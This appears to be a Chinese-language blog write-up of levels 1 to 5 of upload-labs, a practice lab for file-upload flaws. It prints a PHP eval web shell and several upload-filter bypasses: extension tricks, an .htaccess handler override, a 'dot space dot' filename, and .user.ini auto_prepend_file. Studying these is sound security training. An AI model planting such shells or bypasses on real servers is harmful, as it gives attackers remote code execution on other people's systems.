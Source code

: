 ```yaml
---
layout: post
title:  upload-labs(pass1-5)
date: 2021-06-27 17:13 +0900
category: upload-file
---
```

<!-- TOC -->

- [0x0 pass-01](#0x0-pass-01)
- [0x1 pass-02](#0x1-pass-02)
- [0x2 pass-03](#0x2-pass-03)
- [0x3 pass-04](#0x3-pass-04)
- [0x4 pass-05](#0x4-pass-05)
  - [0x4.1 第一种思路：点、空格、点](#0x41-第一种思路点空格点)
- [0x4.2 第二种思路：.user.ini文件](#0x42-第二种思路userini文件)

<!-- /TOC -->

## 0x0 pass-01
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
![](/images/20210627-1.png)
`关闭js进行上传`  
![](/images/20210627-2.png)
`getshell`  
![](/images/20210627-3.png)

## 0x1 pass-02
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php.jpg`  
![](/images/20210627-4.png)
`getshell`
![](/images/20210627-5.png)

## 0x2 pass-03
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php5`  
`需要服务器允许上传并且可以解析 .php5 .php3 .phtml等文件`  
![](/images/20210627-6.png)
`getshell`
![](/images/20210627-7.png)

## 0x3 pass-04
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`phpstudy需要设置允许上传.htaccess文件`  
```php
<FilesMatch "shell_04.jpg">  
		SetHandler application/x-httpd-php
</FilesMatch>
#让服务器以php的方式解析，shell_04.jpg
```
![](/images/20210627-8.png)
`getshell`
![](/images/20210627-9.png)

## 0x4 pass-05

### 0x4.1 第一种思路：点、空格、点
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house";
    phpinfo();?>
```
```c
使用burpsuite改包上传shell_05.php
shell_05.php. .
点 空格 点
```
![](/images/20210627-10.png)
![](/images/20210627-11.png)
`getshll`  
![](/images/20210627-12.png)
![](/images/20210627-13.png)

## 0x4.2 第二种思路：.user.ini文件

[具体可以参考]([/images/20210627-13.png](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html))
```C
思路：.user.ini会让当前目录下的每个.php文件都执行一次.user.ini中指定的文件
设置.user.ini文件的内容为：auto_prepend_file=01.gif
然后再执行相同路径文件夹下的.php文件
执行图片马
```